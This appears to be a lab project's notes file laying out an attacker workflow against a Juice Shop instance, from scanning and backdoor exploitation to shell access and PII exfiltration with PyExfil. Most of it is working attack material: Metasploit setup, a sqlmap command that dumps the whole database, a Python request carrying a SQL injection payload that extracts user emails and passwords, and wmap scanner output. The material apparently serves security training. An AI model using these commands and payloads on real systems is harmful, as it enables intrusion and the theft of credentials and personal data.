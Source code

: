 # Attacker Workflow

1. Scan Application (dirbuster)
2. Exploit Backdoor (serialization library)
3. Get shell, upgrade to meterpreter
4. Install PyExfil system
5. Run PyExfil to generate pii data
6. Perform data exfiltration
7. 



Metasploit + Python Setup


docker run -t -i kalilinux/kali-linux-docker /bin/bash
apt-get update && apt-get install metasploit-framework
apt-get install python3-pip
pip3 install --user pymetasploit3

msfrpcd -P changeme123 -S
(opens port on 55553)

service postgresql start
(starts postgresql service)

msfdb init
(connects metasploit with postgresql)

git clone https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
cd sqlmap-dev
python3.7 sqlmap.py -u 'http://juice-shop-charles/rest/product/search?q=something' -p 'q' --dbms='sqlite' --level=3 --risk=3 --dump-all --technique U --union-cols 8 --fresh-queries --flush-session --union-char='x' --batch
(scan with sqlmap)
(do get request with proper parameters)
import requests

url = "http://juice-shop-charles.us-west1-a.securethebox.us/rest/product/search/"

querystring = {"q":"something%27%29%29%20UNION%20ALL%20SELECT%20NULL,email,password,NULL,NULL,NULL,NULL,NULL%20from%20users--%0A"}

headers = {
    'User-Agent': "PostmanRuntime/7.13.0",
    'Accept': "*/*",
    'Host': "juice-shop-charles.us-west1-a.securethebox.us",
    'accept-encoding': "gzip, deflate",
    'Connection': "keep-alive"
    }

response = requests.request("GET", url, headers=headers, params=querystring)

print(response.text)







load wmap
wmap_sites -a http://nginx-modsecurity-charles
wmap_run -t

[*] Module auxiliary/scanner/http/http_version
[*] Module auxiliary/scanner/http/frontpage_login
[*] Module auxiliary/scanner/http/host_header_injection
[*] Module auxiliary/scanner/http/options
[*] Module auxiliary/scanner/http/robots_txt
[*] Module auxiliary/scanner/http/scraper
[*] Module auxiliary/scanner/http/svn_scanner
[*] Module auxiliary/scanner/http/trace
[*] Module auxiliary/scanner/http/vhost_scanner
[*] Module auxiliary/scanner/http/webdav_internal_ip
[*] Module auxiliary/scanner/http/webdav_scanner
[*] Module auxiliary/scanner/http/webdav_website_content
[*] 
=[ File/Dir testing ]=
============================================================
[*] Module auxiliary/scanner/http/backup_file
[*] Module auxiliary/scanner/http/brute_dirs
[*] Module auxiliary/scanner/http/copy_of_file
[*] Module auxiliary/scanner/http/dir_listing
[*] Module auxiliary/scanner/http/dir_scanner
[*] Module auxiliary/scanner/http/dir_webdav_unicode_bypass
[*] Module auxiliary/scanner/http/file_same_name_dir
[*] Module auxiliary/scanner/http/files_dir
[*] Module auxiliary/scanner/http/http_put
[*] Module auxiliary/scanner/http/prev_dir_same_name_file
[*] Module auxiliary/scanner/http/replace_ext
[*] Module auxiliary/scanner/http/soap_xml
[*] Module auxiliary/scanner/http/trace_axd
[*] Module auxiliary/scanner/http/verb_auth_bypass
[*] 
=[ Unique Query testing ]=
============================================================
[*] Module auxiliary/scanner/http/blind_sql_query
[*] Module auxiliary/scanner/http/error_sql_injection
[*] Module auxiliary/scanner/http/http_traversal